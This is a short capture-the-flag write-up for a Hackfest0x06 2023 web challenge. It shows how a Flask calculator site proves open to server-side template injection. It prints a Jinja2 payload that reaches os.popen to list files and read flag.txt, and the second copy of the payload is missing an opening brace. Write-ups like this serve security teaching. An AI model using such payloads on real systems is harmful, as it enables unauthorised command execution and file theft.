 #Hackfest0x06 quals 2023
> Aseng has just created a simple web-based calculator program.
Come on, try Aseng's calculator program! ^ -^)b

## About the Challenge
Based on the challenge description, there is a website which is a simple calculator program. Let's see that.

![img1](images/img1.png)

## How to solve?
Hmm, a clue that looks suspicious is `calculator`, maybe it refers to a common vulnerability on the web, namely SSTI vulnerability. Let's try the simplest one, namely `{{7*7}}`

![img2](images/img2.png)

And yes, the website is vulnerable to SSTI python injection and we can exploit it.
Here's the payload.

```
{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('ls -al')['read']()}}
```

![img3](images/img3.png)

We found that there is `flag.txt` in the `/` directory, let's change the payload.
```
{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cat ../flag.txt')['read']()}}
```

![flag](images/flag.png)

And voila, we get the flag.

```
Hackfest0x06{1_l0v3_Flask_but_1_hate_sn4ke__it5_call3d_SSTI_btw_cheers}
```
